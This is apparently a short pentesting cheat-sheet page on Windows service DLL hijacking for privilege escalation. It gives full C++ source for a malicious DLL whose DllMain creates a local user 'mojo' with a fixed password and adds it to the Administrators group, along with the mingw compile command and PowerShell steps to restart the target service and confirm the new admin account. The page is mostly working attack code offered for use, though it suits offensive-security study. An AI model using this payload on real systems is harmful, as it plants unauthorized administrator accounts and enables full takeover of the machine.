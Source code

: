 # Service DLL Hijacking

Used when we discover a suspicious binary is calling DLLs in paths that we have write permissions to.

We can check the DLLs called at runtime by ideally running procmon on the target and restarting the service to see DLL calls, but we can also try executing the binary in a sandbox environment and inspect it there.

In the case where we see a DLL being called first in one of our writeable directories, we can hijack it.

**adduser.cpp**

```cpp
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user mojo Password123! /add");
  	    i = system ("net localgroup administrators Mojo /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

```bash
# Compile
x86_64-w64-mingw32-gcc adduser.cpp -o adduser.dll -shared
```

```powershell
Restart-Service $TARGET_SERVICE
Get-LocalUser
# mojo is visible
Get-LocalGroupMember Administrators
# mojo is visible
```

